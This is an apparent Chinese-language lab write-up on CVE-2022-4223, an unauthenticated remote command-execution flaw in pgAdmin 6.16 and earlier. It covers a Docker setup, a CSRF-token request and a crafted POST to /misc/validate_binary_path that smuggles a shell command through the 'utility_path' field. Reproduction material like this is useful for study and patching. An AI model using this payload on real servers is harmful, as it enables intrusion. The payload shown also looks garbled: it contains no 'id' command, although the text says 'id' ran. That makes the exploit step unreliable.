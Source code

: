 # pgAdmin <= 6.16 无授权远程命令执行漏洞（CVE-2022-4223）

pgAdmin是一个著名的PostgreSQL数据库管理平台。

pgAdmin包含一个HTTP API可以用来让用户选择并验证额外的PostgreSQL套件，比如pg_dump和pg_restore。但在其6.16版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- <https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604>
- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## 漏洞环境

执行如下命令启动一个pgAdmin 6.16服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到pgAdmin默认的登录页面。

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取CSRF token：

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

在返回包中拿到一个新的session id和csrf token：

![](1.png)

然后，将获取到的session id和csrf token填写进下面的数据包并发送：

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";;echo ') .';#"}
```

可见，`id`命令已经被成功执行：

![](2.png)
